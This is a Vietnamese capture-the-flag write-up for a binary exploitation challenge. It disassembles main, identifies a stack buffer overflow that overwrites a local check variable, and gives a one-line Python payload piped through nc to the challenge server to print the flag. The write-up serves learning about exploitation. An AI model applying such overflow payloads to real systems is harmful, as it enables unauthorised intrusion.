 Free_real_estate
---
Binary Exploitation

Description:
---
> Nothing

Solution:
---
Như cái tên đề bài thì đây là bài free điểm, nhưng mà chả ai làm :joy: Chạy thử xem nào :point_down:

![1](https://user-images.githubusercontent.com/32799754/55638091-9d0aa980-57f0-11e9-9fbb-2826f8017850.PNG)

Xem ra có 1 chỗ nhập, decompile ra xem main nào:

```asm
   0x08048671 <+10>:	push   ebp
   0x08048672 <+11>:	mov    ebp,esp
   0x08048674 <+13>:	push   ecx
   0x08048675 <+14>:	sub    esp,0x24
   0x08048678 <+17>:	call   0x80485bb <init>
   0x0804867d <+22>:	mov    DWORD PTR [ebp-0xc],0x4d2
   0x08048684 <+29>:	sub    esp,0xc
   0x08048687 <+32>:	push   0x8048792
   0x0804868c <+37>:	call   0x8048450 <puts@plt>
   0x08048691 <+42>:	add    esp,0x10
   0x08048694 <+45>:	sub    esp,0x8
   0x08048697 <+48>:	push   0x32
   0x08048699 <+50>:	lea    eax,[ebp-0x24]; <--- Buffer nhập vào nằm ở [ebp-0x24]
   0x0804869c <+53>:	push   eax
   0x0804869d <+54>:	call   0x8048628 <readin>; <--- Hàm đọc đây rồi, nhìn lên <+48> thì hàm này cho nhập 0x32 bytes
   0x080486a2 <+59>:	add    esp,0x10
   0x080486a5 <+62>:	sub    esp,0x8
   0x080486a8 <+65>:	lea    eax,[ebp-0x24]
   0x080486ab <+68>:	push   eax
   0x080486ac <+69>:	push   0x80487a2
   0x080486b1 <+74>:	call   0x8048430 <printf@plt>
   0x080486b6 <+79>:	add    esp,0x10
   0x080486b9 <+82>:	cmp    DWORD PTR [ebp-0xc],0x1b39; <--- DWORD PTR [ebp-0xc] == 0x1b39 ? secret() : Bye! 
   0x080486c0 <+89>:	jne    0x80486c9 <main+98>
   0x080486c2 <+91>:	call   0x804860f <secret>; <--- secret() là hàm in flag ra nhé
   0x080486c7 <+96>:	jmp    0x80486d9 <main+114>
   0x080486c9 <+98>:	sub    esp,0xc
   0x080486cc <+101>:	push   0x80487b0
   0x080486d1 <+106>:	call   0x8048430 <printf@plt>
   0x080486d6 <+111>:	add    esp,0x10
   0x080486d9 <+114>:	mov    eax,0x0
   0x080486de <+119>:	mov    ecx,DWORD PTR [ebp-0x4]
   0x080486e1 <+122>:	leave  
   0x080486e2 <+123>:	lea    esp,[ecx-0x4]
   0x080486e5 <+126>:	ret
```
Tóm lại là từ [ebp-0x24] đến [ebp-0xc] có 0x18 bytes. Mà readin() lại cho nhập vào 0x32 bytes. Ăn thôi :yum:

> Gõ terminal đập phát chết luôn, khỏi cần code:
```bash
python -c 'print "A"*0x18 + "\x39\x1b\x00\x00"' | nc 3.91.78.13 10004
```
Flag thiếu chữ P mọi người tự thêm vào nhé:

![image](https://user-images.githubusercontent.com/32799754/55639897-a564e380-57f4-11e9-92ac-f09eeae8a490.png)
